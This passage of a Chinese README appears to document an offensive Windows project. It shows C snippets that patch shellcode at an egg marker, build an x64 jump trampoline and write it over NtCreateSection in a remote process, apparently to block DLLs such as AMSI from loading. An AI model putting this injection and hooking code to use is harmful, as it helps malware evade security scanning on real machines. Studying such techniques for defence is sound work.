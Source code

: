 **查找和 Patching**（在 dll_blocking.c 中）：
```c
// 1. 在 shellcode 中查找 egg
unsigned char EGG[] = { 0xDE, 0xAD, 0xBE, 0xEF, 0x13, 0x37, 0xC0, 0xDE };
for (DWORD i = 0; i <= shellcodeSize - EGG_SIZE; i++) {
    if (memcmp(&shellcode[i], EGG, EGG_SIZE) == 0) {
        // 找到了！
        eggOffset = i;
        break;
    }
}

// 2. 将原始字节 patch 进去
memcpy(&shellcode[eggOffset], originalBytes, 24);
```

### 4. Hook Trampoline

**x64 跳转指令构造**：
```asm
mov r10, <address>    ; 49 BA <8 bytes address>
jmp r10               ; 41 FF E2
```

**C 代码实现**：
```c
unsigned char trampoline[13];

// mov r10, <address>
trampoline[0] = 0x49;
trampoline[1] = 0xBA;
memcpy(&trampoline[2], &targetAddress, 8);

// jmp r10
trampoline[10] = 0x41;
trampoline[11] = 0xFF;
trampoline[12] = 0xE2;

// 写入 NtCreateSection 开头
NtWriteVirtualMemory(hProcess, pNtCreateSection, trampoline, 13, ...);
```

## 项目结构

```
08-dll-blocking/
├── README.md                    # 本文档
├── build.bat                    # 主构建脚本
├── build_shellcode.bat          # PIC shellcode 构建脚本
├── build_injector.bat           # 主注入器构建脚本
├── test_amsi.ps1                # AMSI 测试脚本
└── src/
    ├── api_resolve.h            # API 解析头文件（PEB、哈希定义）
    ├── api_resolve.c            # API 解析实现（PEB 遍历、导出表解析）
    ├── HookShellcode.c          # PIC hook 函数（检查并阻止 DLL）
    ├── extract.c                # .text section 提取工具
    └── dll_blocking.c           # 主注入器程序
```
